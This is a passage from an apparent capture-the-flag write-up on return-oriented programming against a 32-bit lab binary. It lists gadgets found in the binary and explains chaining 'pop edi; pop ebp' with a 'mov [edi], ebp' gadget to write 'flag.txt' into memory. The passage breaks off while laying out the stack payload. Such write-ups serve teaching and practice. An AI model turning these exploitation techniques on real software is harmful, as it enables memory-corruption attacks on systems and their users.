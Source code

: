 	0x08048475 : leave ; ret
	0x08048543 : mov dword ptr [edi], ebp ; ret		== usefulGadget :)
	0x08048423 : mov ebx, dword ptr [esp] ; ret
	0x0804843f : nop ; mov ebx, dword ptr [esp] ; ret
	0x08048525 : pop ebp ; lea esp, [ecx - 4] ; ret
	0x080485ab : pop ebp ; ret
	0x080485a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0x0804839d : pop ebx ; ret
	0x08048524 : pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
	0x080485aa : pop edi ; pop ebp ; ret
	0x080485a9 : pop esi ; pop edi ; pop ebp ; ret
	0x08048421 : push esp ; mov ebx, dword ptr [esp] ; ret
	
	0x08048525 : pop ebp ; lea esp, [ecx - 4] ; ret
	0x080485ab : pop ebp ; ret
	0x080485a8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
	0x0804839d : pop ebx ; ret
	0x08048524 : pop ecx ; pop ebp ; lea esp, [ecx - 4] ; ret
	0x080485aa : pop edi ; pop ebp ; ret
	0x080485a9 : pop esi ; pop edi ; pop ebp ; ret
	...
	Unique gadgets found: 126


Memory addresses we want to write to =  0x0804a018 and 0x0804a01c
What we want to write: "flag" and ".txt"

So if we use usefulGadget (mov DWORD PTR [edi], ebp; ret;), then:
\*edi = fake ebp

But, we want to control this edi value!

We can do this by popping a value off of the stack, and into edi:)

	0x080485aa : pop edi ; pop ebp ; ret

With both of these ROP gadgets, we can set up the stack so that we can pop a value into edi, and a value into ebp. We can then return the next ROP gadget (usefulGadgets), which will move the value of ebp into the address that edi points to. In other words (speaketh C?):

	edi = <address in data section>
	ebp = "flag"
	*edi = ebp = "flag"


# Stack 1

So let's set up the stack accordingly:

	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip  
 	 = address of ROP gadget
	 = &ROP gadget ("&" = "address of")	
	 = 0x080485aa
	 = "\xaa\x85\x04\x08"
	_______________________________________
	edi 
	 = &data
	 = 0x0804a018
	 = "\x18\xa0\x04\x08"
	_______________________________________
	ebp 
	 = "flag"